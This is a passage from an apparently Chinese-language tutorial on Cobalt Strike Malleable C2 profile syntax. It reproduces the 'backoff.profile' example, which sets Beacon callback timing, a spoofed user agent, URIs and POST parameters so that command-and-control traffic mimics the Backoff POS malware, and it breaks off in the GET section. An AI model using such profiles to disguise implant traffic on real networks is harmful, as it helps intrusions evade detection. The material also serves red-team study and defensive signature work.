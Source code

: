 # 0x00 profile语法分析

以 `backoff.profile` 为例来讲解

```
#
# Backoff POS Malware
#
# This profile takes steps to dress up the POST side of Beacon's C2 to
# look like Backoff. The GET side is left generic.
#
# Indicators from:
#   http://blog.spiderlabs.com/2014/07/backoff-technical-analysis.html
#   https://gsr.trustwave.com/topics/backoff-pos-malware/backoff-malware-overview/
#
# Author: @armitagehacker
#
# 
set sample_name "Backoff POS Malware";

set sleeptime "30000"; # use a ~30s delay between callbacks
set jitter    "10";    # throw in a 10% jitter

set useragent "Mozilla/5.0 (Windows NT 6.1; rv:24.0) Gecko/20100101 Firefox/24.0";

# the relevant indicators
http-post {
    set uri "/windebug/updcheck.php /aircanada/dark.php /aero2/fly.php /windowsxp/updcheck.php /hello/flash.php";

    client {
        header "Accept" "text/plain";
        header "Accept-Language" "en-us";
        header "Accept-Encoding" "text/plain";
        header "Content-Type" "application/x-www-form-urlencoded";

        id {
            netbios;
            parameter "id";
        }

        output {
            base64;
            prepend "&op=1&id=vxeykS&ui=Josh @ PC&wv=11&gr=backoff&bv=1.55&data=";
            print;
        }
    }

    server {
        output {
            print;
        }
    }
}

# No information on backoff use of GET, so generic GET request.
http-get {
    set uri "/updates";

    client {
        metadata {
            netbiosu;
            prepend "user=";
```